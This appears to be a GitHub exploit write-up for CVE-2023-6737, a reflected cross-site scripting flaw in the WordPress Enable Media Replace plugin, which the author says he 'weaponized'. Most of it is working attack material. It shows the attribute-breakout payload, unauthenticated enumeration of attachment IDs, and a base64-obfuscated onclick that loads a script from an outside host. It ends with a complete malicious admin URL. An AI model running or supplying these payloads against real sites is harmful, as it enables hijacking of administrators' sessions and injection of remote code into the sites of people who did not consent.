 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6737

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.

## Admin+ Reflected XSS

```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=alert(1)>&_wpnonce=5b60e5964f
```

We have full attribute control and leverage `%22` to breakout of the attribute. Attempting to add remote scripts outside of the html node will result in additional filtering. 

![Screenshot3](screenshot3.png)

### Weaponization of Onclick Attribute

Firstly, you may enumerate attachment IDs via the following (Unauthenticated). A valid attachment ID will provide a valid page. Simply throw in the URL into burpsuite intruder and do a number list to enumerate a valid attachment ID

```
http://localhost:1337/?attachment_id=32
```

> Un-base 64'd script include
```
echo 'var s = document.createElement("script"); s.src = "https://script.com"; document.body.appendChild(s);' | base64
```

> Base64
```
dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK
```


> Malicious Onclick
```
onclick=javascript:eval(atob('dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK'))
```

> Full URL
```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=javascript:eval(atob('dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK'))&_wpnonce=5b60e5964f
```
